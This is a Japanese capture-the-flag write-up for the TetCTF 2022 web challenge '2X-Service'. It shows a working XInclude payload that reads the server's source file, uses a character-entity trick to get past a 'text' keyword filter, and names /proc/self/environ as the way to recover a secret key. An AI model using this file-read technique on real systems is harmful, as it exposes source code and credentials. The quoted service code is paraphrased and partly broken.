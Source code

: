 ```yaml
---
layout: chall
ctf_name: TetCTF 2022
problem_name: 2X-Service
genre: web
solved_date: 2022-01-04
during_ctf: false
tag: [xml, procfs]
---
```


### 概要

XML をパースし、 xpath で指定したノードを出力するサービスが与えられる。本質部分はおおよそ以下の通り。

```py
app.config['SECRET_KEY'] = XXXXXXXSECRETXXXXXXXX

xml = input()
if "text" in xml.lower(): exit()
res = ''
root = ElementTree.fromstring()
ElementInclude.include(root)
for elem in root.findall(input()):
    if elem.text != "":
        res += elem.text + ", "
print('result', res[:-2])
```

[!details:コード:(!src:app.py:c)]

### 解法

まず、`ElementInclude.include(root)` が[何をしているか](https://docs.python.org/ja/3/library/xml.etree.elementtree.html#xinclude-support)確認する。どうやら、特定のタグを用いることで外部の XML ファイルを読み込めるようだ。属性として `parse="text"` を指定するとパースをせずにテキストノードとして読み込んでくれる。サニタイジングは URL エンコードで回避可能である。
FLAG はソースファイルにあるようなので、以下のようにして app.py を読み込んだ。

```
<a xmlns:xi="http://www.w3.org/2001/XInclude"><b><xi:include href="app.py" parse="te&#120;t" /></b></a>
```

すると、秘匿されていた部分は

```
app.config['SECRET_KEY'] = os.environ.get('KEY')
```

であると分かった。環境変数は procfs の /proc/self/environ より読み出せるので、同様にこれを読み込めば良い。
